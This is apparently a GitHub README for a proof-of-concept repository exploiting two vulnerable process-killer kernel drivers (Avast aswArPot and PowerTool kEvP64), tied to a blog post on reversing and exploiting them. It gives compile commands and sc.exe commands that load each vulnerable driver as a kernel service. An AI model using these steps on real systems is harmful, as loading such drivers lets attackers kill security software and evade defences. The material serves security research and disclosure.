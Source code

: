# Killers

<p align="center">
  <img src="https://github.com/xalicex/Killers/blob/main/killers.jpg"  width=40% height=40% >
</p>

In this repository 2 PoCs exploiting 2 different vulnerable process killer driver are available.

These PoCs are related to a blogpost explaining how to find, reverse and exploit this type of vulnerable driver : https://alice.climent-pommeret.red/posts/process-killer-driver/

## Avast

https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

```
x86_64-w64-mingw32-gcc -o avast_killer.exe avast_killer.c 
sc.exe create aswArPot.sys binPath= C:\windows\temp\aswArPot.bin type= kernel && sc.exe start aswArPot.sys
```

## PowerTool 

https://www.loldrivers.io/drivers/fe2f68e1-e459-4802-9a9a-23bb3c2fd331

```
x86_64-w64-mingw32-gcc -o PowerTool_killer.exe PowerTool_killer.c 
sc.exe create kEvP64.sys binPath= C:\windows\temp\kEvP64.bin type= kernel && sc.exe start kEvP64.sys
```
PowerTool official website : http://powertool.s601.xrea.com/

Download page : https://www.softpedia.com/get/Antivirus/Removal-Tools/ithurricane-PowerTool.shtml
